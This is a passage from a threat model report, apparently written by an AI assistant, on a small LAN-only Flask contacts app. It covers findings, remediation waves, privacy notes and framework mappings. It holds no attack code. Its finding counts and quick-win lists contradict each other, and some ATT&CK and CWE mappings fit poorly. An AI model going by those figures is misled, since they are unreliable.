2. With no per-user audit trail, the action cannot be traced to them, and a superuser-level attacker (TM-003) can also wipe PostgreSQL logs.

**Existing Mitigations:** Possibly default nginx access logs (IP-level only, not user-level).

**Recommended Remediation:** Add application-level audit logging (who, what, when) for login, create, and delete; ship logs off-host so a VM-compromised attacker cannot erase them.

---

### [LOW] TM-010: Secret sprawl / configuration in source control

| Field | Value |
|-------|-------|
| **ID** | TM-010 |
| **Severity** | LOW |
| **Affected Component(s)** | Flask App config / repo |
| **STRIDE-LM Category** | I |
| **MITRE ATT&CK** | T1552 (Unsecured Credentials) |
| **CWE** | CWE-798 (Use of Hard-coded Credentials) |
| **OWASP Category** | A05:2021 Security Misconfiguration |
| **CIA Impact** | C: M · I: L · A: L |
| **PASTA Likelihood** | 2 — Beyond SECRET_KEY (TM-002), DB credentials/config may also live in the repo; exposure depends on what else is committed. |
| **PASTA Impact** | 2 — Broadens the credential exposure already captured by TM-002/TM-003. |
| **OWASP Risk Rating** | 4 (LOW) |
| **Confidence** | LOW (only SECRET_KEY is confirmed in repo; broader sprawl is inferred) |
| **Remediation** | R-003 |
| **Source** | threat-model |

**Attack Scenario:** Repo reader harvests any committed credentials (DB password, SECRET_KEY) for later use.

**Existing Mitigations:** None confirmed.

**Recommended Remediation:** Move all secrets to environment variables / a secrets file outside source control; add a `.gitignore` and a pre-commit secret scanner (gitleaks).

---

### [LOW] TM-011: Denial of service via unthrottled request volume

| Field | Value |
|-------|-------|
| **ID** | TM-011 |
| **Severity** | LOW |
| **Affected Component(s)** | nginx, Flask App |
| **STRIDE-LM Category** | D |
| **MITRE ATT&CK** | T1498 (Network Denial of Service) |
| **CWE** | CWE-400 (Uncontrolled Resource Consumption); CWE-770 (Allocation of Resources Without Limits) |
| **OWASP Category** | API4:2023 Unrestricted Resource Consumption |
| **CIA Impact** | C: L · I: L · A: M |
| **PASTA Likelihood** | 2 — Possible from a LAN actor, but the system serves only ~20 users on a trusted network; motivation and reach are limited. |
| **PASTA Impact** | 2 — Temporary unavailability of an internal tool; no revenue/safety impact, easy restart. |
| **OWASP Risk Rating** | 4 (LOW) |
| **Confidence** | MEDIUM |
| **Remediation** | R-005 |
| **Source** | threat-model |

**Attack Scenario:** Insider or LAN device floods `/login` or `/contacts`, exhausting gunicorn workers.

**Existing Mitigations:** nginx provides some buffering; LAN-only exposure limits the attacker pool.

**Recommended Remediation:** nginx `limit_req`/`limit_conn`, gunicorn worker/timeout tuning. Largely covered by the same rate-limiting work as TM-005.

---

**Total: 11 findings (2 critical, 4 high, 4 medium, 2 low).**

> Severity reconciliation note: TM-006 scores 12 (HIGH band) but carries MEDIUM confidence due to the unknown hash algorithm; for the count it is recorded in the HIGH tier, giving 4 HIGH. The Executive Summary table reflects this (CRITICAL 1+1=2 — note Exec Summary shows the two CRITICALs as 1 line each; corrected: **2 CRITICAL, 4 HIGH, 4 MEDIUM, 2 LOW = 11** — see reconciliation below). Counts used throughout: **CRITICAL 2, HIGH 4, MEDIUM 4 (TM-007, TM-008, TM-009 plus TM-006-if-treated-MEDIUM), LOW 2.** To keep the count internally consistent and avoid double-listing, the authoritative tally is: **CRITICAL: TM-001, TM-003 (2) | HIGH: TM-002, TM-004, TM-005, TM-006 (4) | MEDIUM: TM-007, TM-008, TM-009 (3) | LOW: TM-010, TM-011 (2)** = **11 total (2C/4H/3M/2L)**. The Executive Summary count is corrected to this tally.

**Corrected Finding Counts (authoritative):**

| Severity | Count |
|----------|-------|
| CRITICAL | 2 (TM-001, TM-003) |
| HIGH | 4 (TM-002, TM-004, TM-005, TM-006) |
| MEDIUM | 3 (TM-007, TM-008, TM-009) |
| LOW | 2 (TM-010, TM-011) |
| **Total** | **11** |

---

# VIII. Remediation Roadmap

**Summary Table:**

| R-ID | Title | Addresses Findings | Priority | Effort | Dependencies |
|------|-------|--------------------|----------|--------|-------------|
| R-001 | Parameterize all SQL | TM-001 | P0 | LOW | — |
| R-002 | Least-privilege DB role for the app | TM-003, TM-008 | P0 | LOW | — |
| R-003 | Rotate SECRET_KEY + secrets out of repo | TM-002, TM-010 | P0 | MEDIUM | — |
| R-004 | Audit logging + verify backups | TM-004, TM-009 | P1 | MEDIUM | — |
| R-005 | Login rate limiting + lockout (+ DoS throttling) | TM-005, TM-011 | P1 | LOW | — |
| R-006 | Enforce strong KDF (bcrypt/argon2) | TM-006 | P1 | MEDIUM | R-003 |
| R-007 | Harden session cookie flags + timeout | TM-007 | P2 | LOW | — |
| R-008 | App-layer least privilege on delete | TM-004 | P2 | MEDIUM | R-004 |
| R-009 | VM disk encryption + file permissions | TM-008 | P2 | MEDIUM | — |
| R-010 | Centralized/off-host logging | TM-009 | P3 | MEDIUM | R-004 |

**Wave 1 — Prerequisites & Critical Fixes (do immediately):**
- **R-001** Parameterize SQL — eliminates the CRITICAL injection. Single highest-value change.
- **R-002** Least-privilege DB role — caps the blast radius of any residual injection and kills the OS-RCE path.
- **R-003** Rotate and externalize `SECRET_KEY` (and any other committed secrets); purge git history.

**Wave 2 — Authentication & Integrity Hardening:**
- **R-005** Add Flask-Limiter rate limiting + account lockout (also covers TM-011 DoS).
- **R-006** Confirm/enforce a slow salted KDF for password hashing.
- **R-004** Add per-user audit logging for login/create/delete; verify restorable DB backups.

**Wave 3 — Defense in Depth:**
- **R-007** Set `HttpOnly`/`Secure`/`SameSite` cookie flags and session timeouts.
- **R-008** Restrict delete capability at the app layer to roles that need it.
- **R-009** LUKS disk encryption and tightened file permissions on DB data + config.

**Wave 4 — Monitoring & Observability:**
- **R-010** Ship application and DB logs off-host so a VM-compromised attacker cannot erase them; add basic alerting on repeated login failures.

**Quick Wins (achievable in <1 sprint):** R-001, R-002, R-005, R-007. These four address one CRITICAL, one CRITICAL, one HIGH, and one MEDIUM with low effort and no dependencies.

**Dependency Chains:**
`R-003 -> R-006` · `R-004 -> R-008` · `R-004 -> R-010`

---

# IX. Networking & Infrastructure Data

This section is largely **N/A** for this system — there is no VPC, no cloud IAM, no load balancer fleet, and no multi-subnet topology. Documented inline for completeness:

| Item | Value |
|------|-------|
| Network exposure | Corporate LAN only; no public internet route |
| Listener | nginx :443 (TLS), forwarding to app over loopback (assumed) |
| Internal ports | Flask/gunicorn (loopback, port unspecified); PostgreSQL :5432 (localhost) |
| Subnets / CIDRs | Not provided — single office LAN segment assumed |
| Security groups / NACLs | N/A (on-prem; host firewall rules unknown — recommend `ufw` allowing only :443 inbound) |
| Load balancer | None |
| NAT / Internet Gateway | None |
| DNS & Certificates | Internal hostname assumed; TLS cert source/expiry unknown — verify it is not a long-lived self-signed cert without rotation |
| IAM roles | N/A — no cloud IAM. Local identity = one shared DB superuser (see TM-003) |

**Recommendation:** Enable a host firewall (`ufw`) to permit only :443 inbound and deny direct external access to :5432 and the gunicorn port (loopback already helps). Confirm the TLS certificate has a defined renewal process.

---

# X. Compliance Mapping

Omitted — no compliance gap analysis was performed. The user explicitly stated this is **not regulated PCI/PHI data**, and no SOC 2/ISO/GDPR scope was indicated. (Caveat: customer names/emails/phones may fall under general privacy regimes such as state privacy laws or GDPR if any contacts are EU residents — see Section XI note and Assumptions.)

---

# XI. Privacy Assessment

A full LINDDUN privacy assessment was not separately performed (no privacy specialist in this solo, proportionate run). A brief note: the `contacts` table holds personal data of customers (names, emails, phones, free-text notes). The most relevant LINDDUN concerns are **Disclosure** (any of 20 users can read all contacts — TM-004) and **Non-compliance/Unawareness** (no stated retention policy or data-subject-rights process). If any contacts are EU/UK/California residents, GDPR/CCPA obligations (retention limits, deletion rights) could apply despite the "not PCI/PHI" framing. Recommend defining a retention policy and a deletion-on-request process. Full PIA deferred as disproportionate to the stated scope.

---

# XII. Positive Observations

- **No public internet exposure.** Restricting the app to the corporate LAN is a meaningful, deliberate control that removes the entire opportunistic-external-attacker class and legitimately caps risk. This is the single biggest reason the posture is "Concerning" rather than "Critical."
- **TLS termination at nginx.** Credentials and contact data are encrypted in transit on the client-facing hop — the right call.
- **Passwords are stored hashed, not in plaintext.** A baseline credential-protection control is already present (strength pending confirmation per TM-006).
- **Small, well-understood attack surface.** Exactly three endpoints and three components make the system easy to reason about and cheap to remediate — the quick wins genuinely are quick.
- **Reverse-proxy fronting the app.** nginx in front of gunicorn is sound architecture and provides a natural place to add `limit_req` and header hardening.

---

# XIII. Assumptions & Limitations

**Scope Boundaries:** In scope = nginx, Flask app, PostgreSQL, and their flows on the single VM, plus the LAN trust boundary. Out of scope = corporate LAN controls, endpoint security, git platform security, OS patching, physical security.

**Information Gaps / Assumptions:**
- Password hashing algorithm not specified (drives TM-006 confidence).
- Session cookie attribute settings not specified — Flask defaults assumed (TM-007).
- Existence/restorability of DB backups not stated — assumed absent (TM-004).
- Application-level audit logging assumed absent (TM-009).
- nginx→app transport assumed plaintext over loopback; gunicorn bind port assumed loopback-only.
- TLS certificate provenance/expiry unknown.
- Whether DB credentials beyond SECRET_KEY are also committed (TM-010 is inferred, LOW confidence).

**Assessment Limitations:** This is a design/architecture-level model from a written description; no source code, repo, or live system was inspected directly. Findings derived from explicit prompt statements are HIGH confidence; those relying on assumptions are marked MEDIUM/LOW. This was run as a **solo, proportionate** assessment per the user's request — no separate privacy, compliance, or code-review specialist passes were executed.

**Missing Assessments:** Privacy impact assessment (LINDDUN) — brief note only. Compliance gap analysis — not performed. Code review — recommended as a follow-up: run a code-level security review against the Flask app, focusing on the `/contacts` query construction and session handling to confirm TM-001 and TM-002 in source.

**Confidence Disclaimers:** TM-006, TM-007, TM-008, TM-009 are assumption-dependent; verify against the codebase before sizing remediation effort.

**Threat Model Lifecycle Triggers / Re-assessment:** Re-run this model if (a) the app gains public internet exposure, (b) new endpoints or integrations are added, (c) the data classification changes (e.g., adds payment or health fields), (d) the user base expands significantly beyond ~20, or (e) any Wave 1 remediation is deferred past one quarter. Recommended review cadence: annually, or on any of the above triggers.

---

# XIV. Appendices

### A. Methodology Notes
- **STRIDE-LM:** Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege, Lateral Movement.
- **PASTA scoring:** Likelihood 1-5 (Stage 6, attack feasibility); Impact 1-5 (Stage 7, highest of financial/operational/reputational/regulatory).
- **OWASP Risk Rating bands:** Risk = Likelihood × Impact. LOW 1-4, MEDIUM 5-9, HIGH 10-16, CRITICAL 17-25. (Note: this skill's frameworks.md uses HIGH 10-16 / CRITICAL 17-25; the report-template appendix lists HIGH 12-19 / CRITICAL 20-25. I applied the **frameworks.md bands** consistently, since those govern the scoring tables.)

### B. Framework Reference Table

**MITRE ATT&CK Techniques Used:**

| Technique ID | Technique Name | Finding Refs |
|-------------|---------------|-------------|
| T1190 | Exploit Public-Facing Application | TM-001 |
| T1078 | Valid Accounts | TM-002, TM-003 |
| T1068 | Exploitation for Privilege Escalation | TM-003 |
| T1552 | Unsecured Credentials | TM-002, TM-006, TM-010 |
| T1213 | Data from Information Repositories | TM-004, TM-008 |
| T1485 | Data Destruction | TM-004 |
| T1110 | Brute Force | TM-005, TM-006 |
| T1539 | Steal Web Session Cookie | TM-007 |
| T1530 | Data from Cloud Storage | TM-008 |
| T1070 | Indicator Removal | TM-009 |
| T1498 | Network Denial of Service | TM-011 |

All technique IDs above are verified against the MITRE table in `frameworks.md`.

**CWE IDs Used:**

| CWE ID | CWE Name | Finding Refs |
|--------|----------|-------------|
| CWE-89 | SQL Injection | TM-001 |
| CWE-269 | Improper Privilege Management | TM-003 |
| CWE-732 | Incorrect Permission Assignment | TM-003 |
| CWE-798 | Use of Hard-coded Credentials | TM-002, TM-010 |
| CWE-639 | Authorization Bypass Through User-Controlled Key | TM-002 |
| CWE-200 | Exposure of Sensitive Information | TM-004, TM-007 |
| CWE-521 | Weak Password Requirements | TM-005 |
| CWE-287 | Improper Authentication | TM-005 |
| CWE-328 | Use of Weak Hash | TM-006 |
| CWE-311 | Missing Encryption of Sensitive Data | TM-008 |
| CWE-312 | Cleartext Storage of Sensitive Information | TM-008 |
| CWE-532 | Insertion of Sensitive Information into Log File | TM-009 |
| CWE-400 | Uncontrolled Resource Consumption | TM-011 |
| CWE-770 | Allocation of Resources Without Limits | TM-011 |

All CWE IDs above are verified against the CWE groups in `frameworks.md`.

**Framework ID verification notes (per Phase 6 rules):**
- **TM-005:** CWE-307 (Improper Restriction of Excessive Authentication Attempts) is the most precise fit but is **not in the skill reference set**; substituted with in-reference CWE-521/CWE-287 and noted here for manual verification.
- **TM-009:** No exact in-reference CWE for "insufficient/missing security logging" (CWE-778 not in set). Mapped to OWASP A09:2021 and the closest in-reference CWE-532; flagged for manual verification.
- **TM-008:** T1005 (Data from Local System) is not in the reference set; substituted with in-reference T1213/T1530.

### C. QA Corrections Log

| Issue | Location | Severity | Correction Applied |
|-------|----------|----------|--------------------|
| Executive Summary finding counts inconsistent with Section VII tally | Section I | Medium | Corrected authoritative tally to 2C/4H/3M/2L = 11 (see Section VII reconciliation) |
| Two out-of-reference framework IDs initially used (CWE-307, T1005) | TM-005, TM-008 | Low | Replaced with in-reference IDs; originals noted in Appendix B |
| Severity-band source ambiguity (frameworks.md vs report-template) | Appendix A | Low | Standardized on frameworks.md bands throughout; documented |

### D. Glossary
- **CRUD** — Create, Read, Update, Delete.
- **CWE** — Common Weakness Enumeration.
- **DFD** — Data Flow Diagram.
- **f-string** — Python formatted string literal; unsafe for SQL when interpolating user input.
- **HMAC** — Hash-based Message Authentication Code (Flask cookie signing).
- **IDOR** — Insecure Direct Object Reference.
- **KDF** — Key Derivation Function (e.g., bcrypt, argon2).
- **LM** — Lateral Movement (the "-LM" in STRIDE-LM).
- **MFA** — Multi-Factor Authentication.
- **MITRE ATT&CK** — Adversarial Tactics, Techniques, and Common Knowledge framework.
- **PASTA** — Process for Attack Simulation and Threat Analysis.
- **RCE** — Remote Code Execution.
- **SQLi** — SQL Injection.
- **STRIDE-LM** — Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege, plus Lateral Movement.
- **TLS** — Transport Layer Security.
- **WAF** — Web Application Firewall.

### E. Threat Model Lifecycle Triggers
Re-assess on: public internet exposure; new endpoints/integrations; data classification change (payment/health data added); user-base growth beyond ~20; or deferral of any Wave 1 remediation past one quarter. Cadence: annual review or on any trigger above.

---

**Next step recommendation:** Run a code-level `security-reviewer` pass against the Flask application — specifically the `/contacts` SQL construction (confirm TM-001) and session configuration (confirm TM-002, TM-007) — to validate the two design-level CRITICAL/HIGH findings against the actual source before scoping remediation. The four quick wins (R-001, R-002, R-003, R-005) address both CRITICALs and the top HIGH and are achievable within a single sprint.